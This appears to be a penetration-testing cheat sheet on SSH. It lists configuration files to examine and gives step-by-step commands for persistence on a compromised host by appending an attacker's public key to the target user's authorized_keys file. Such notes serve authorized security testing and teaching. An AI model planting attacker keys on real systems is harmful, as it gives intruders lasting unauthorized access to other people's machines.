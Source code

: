 # 22\_SSH

## Examine Configuration Files

* ssh\_config
* sshd\_config
* autorized\_keys
* ssh\_known\_hosts
* .shosts

## Establish Persistence

If ssh open, you can add your attacker box public key to the machine so that you can ssh into it on-demand.

* Note that this only works if the target user you have a shell on has an interactive login shell\(/bin/sh, /bin/bash\) assigned to their user in the passwd file.
* \(Target\) See if there is a .ssh folder in the home directory of the target user.  If not, create one.

  ```text
  ls -lat ~
  mkdir ~/.ssh
  ```

* \(Target\) Ensure that there is an authorized\_keys file within the .ssh folder.

  ```text
  ls -lat ~/.ssh
  cd ~/.ssh; touch authorized_keys
  ```

* \(Target\) Ensure that the file permissions on the target user home folder \(~\), .ssh directory \(~/.ssh\), and authorized\_keys file \(~/.ssh/authorized\_keys\) are only writable by the target user \(no other groups or gloabl\) and readable by at least the target user.  If not, change the permissions to ensure this.

  ```text
  chmod 755 ~ -R
  ```

* \(Local\) Ensure that you have a public / private key pair generated.  If not, generate one.

  ```text
  ls -lat ~/.ssh
  ssh-keygen
  ```

* \(Local\) Ensure the permissions on your private key \(file with id prefix without the .pub suffix\) is only readable and writeable by you.

  ```text
  chmod 600 ~/.ssh/[private key file like id_rsa]
  ```

* \(Local and Target\) Copy the public key \(file with id prefix with the .pub suffix\) from our local machine to the authorized\_keys file on the target system.

  ```text
  #Local# cat ~/.ssh/[public keyfile like id_rsa.pub]|clip
  #Target# echo [pasted public key value] >> ~/.ssh/authorized_keys
  ```

* \(Local\) Attempt an ssh login to the target machine as the target user.

  ```text
  ssh -i ~/.ssh/[private key like id_rsa] [target user]@[target IP]
  ```

